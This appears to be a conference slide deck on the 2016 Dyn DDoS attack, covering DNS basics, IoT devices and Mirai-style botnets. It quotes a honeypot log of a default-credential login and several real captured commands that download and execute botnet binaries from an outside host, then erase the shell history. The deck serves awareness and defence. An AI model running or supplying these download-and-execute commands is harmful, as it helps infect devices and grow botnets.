


#HSLIDE

* What happened 21.Oct 2016
* What is DNS and why we should care
* What is/are IoT
* How to build a IoT botnet yourself and how to track one
* Why black- and whitehat hackers love cat pictures?

#HSLIDE


#VSLIDE

> Early Friday morning, Dyn, a company that provides Domain Name Servers (DNS) for a 
> lot of heavily trafficked websites and services, came under a massive Distributed 
> Denial of Service (DDoS) attack. This has disrupted access to many sites for people 
> across the U.S. Yes, it’s why your Spotify app is offline, why you can’t stream Netflix, 
> and why Twitter won’t load. 

#HSLIDE

## DNS

```
;; QUESTION SECTION:
;spotify.com.                   IN      A

;; ANSWER SECTION:
spotify.com.            300     IN      A       194.132.197.147
spotify.com.            300     IN      A       194.132.198.165
spotify.com.            300     IN      A       194.132.198.228

;; AUTHORITY SECTION:
spotify.com.            300     IN      NS      ns3.spotify.com.
spotify.com.            300     IN      NS      ns4.spotify.com.
spotify.com.            300     IN      NS      ns5.spotify.com.
spotify.com.            300     IN      NS      ns2.spotify.com.

;; ADDITIONAL SECTION:
ns2.spotify.com.        300     IN      A       194.132.168.117
ns3.spotify.com.        300     IN      A       193.235.32.2
ns4.spotify.com.        300     IN      A       194.132.162.51
ns5.spotify.com.        300     IN      A       194.68.28.185
```

#VSLIDE



#VSLIDE



#VSLIDE


#HSLIDE

##IOT

"connecting any device with an on and off switch to the Internet (and/or to each other). This includes everything from cellphones, coffee makers, washing machines, headphones, lamps, wearable devices and almost anything else you can think of.  This also applies to components of machines, for example a jet engine of an airplane or the drill of an oil rig."

__... what about artificial cardiac pacemaker?__

#VSLIDE?image=media/dyn-network-map.png

#HSLIDE

```
2016-10-28 05:00:46+0200 admin trying auth password
2016-10-28 05:00:46+0200 login attempt [admin/qwerty] succeeded
2016-10-28 05:00:49+0200 admin authenticated with password
2016-10-28 05:00:50+0200 executing command "cd /tmp; wget http://catsmeowalot.com/lmao.sh || curl -O
http://catsmeowalot.com/lmao.sh; chmod 777 lmao.sh; sh lmao.sh; busybox tftp catsmeowalot.com 
-c get tftp1.sh; chmod 777 tftp1.sh; sh tftp1.sh; busybox tftp -r tftp2.sh -g catsmeowalot.com; 
chmod 777 tftp2.sh; sh tftp2.sh; rm -rf lmao.sh tftp1.sh tftp2.sh; cd; 
rm -rf ./bash_history; history -c"
2016-10-28 05:00:50+0200 Command found: history -c
2016-10-28 05:00:50+0200 Closing TTY Log: log/tty/20161028-050050-abab97cc-0e.log after 0 seconds
2016-10-28 05:00:50+0200 honeypot terminal protocol connection lost disconnected
```

#HSLIDE

```
cd /tmp && wget -q http://catsmeowalot.com/ayylmao && chmod +x ayylmao && ./ayylmao
cd /tmp && wget -q http://catsmeowalot.com/ayymips && chmod +x ayymips && ./ayymips
cd /tmp && wget -q http://catsmeowalot.com/jackmysh4 && chmod +x jackmysh4 && ./jackmysh4
cd /tmp && wget -q http://catsmeowalot.com/ayyx86 && chmod +x ayyx86 && ./ayyx86
cd /tmp && wget -q http://catsmeowalot.com/ayyarm && chmod +x ayyarm && ./ayyarm
cd /tmp && wget -q http://catsmeowalot.com/ayyi686 && chmod +x ayyi686 && ./ayyi686
cd /tmp && wget -q http://catsmeowalot.com/jackmypowerpc && chmod +x jackmypowerpc && ./jackmypowerpc
cd /tmp && wget -q http://catsmeowalot.com/ayyi586 && chmod +x ayyi586 && ./ayyi586
cd /tmp && wget -q http://catsmeowalot.com/jackmym86k && chmod +x jackmym86k && ./jackmym86k
cd /tmp && wget -q http://catsmeowalot.com/jackmysparc && chmod +x jackmysparc && ./jackmysparc
```

#HSLIDE?image=media/


#HSLIDE


Slides and more on Anycast and DNS:

```
http:// www.pch.net / resources / papers / dns-service-architecture

Bill Woodcock 
woody@pch.net

Gaurab Raj Upadhaya
gaurab@pch.net
```

#HSLIDE

* *Skiddos* did excellent awareness rising capaign, what's next?
  * INDUSTRIAL INTERNET SECURITY FRAMEWORK (http://www.iiconsortium.org/IISF.htm, ~170p)
  * Future-proofing the Connected World (https://downloads.cloudsecurityalliance.org/assets/research/internet-of-things/future-proofing-the-connected-world.pdf, ~70p)

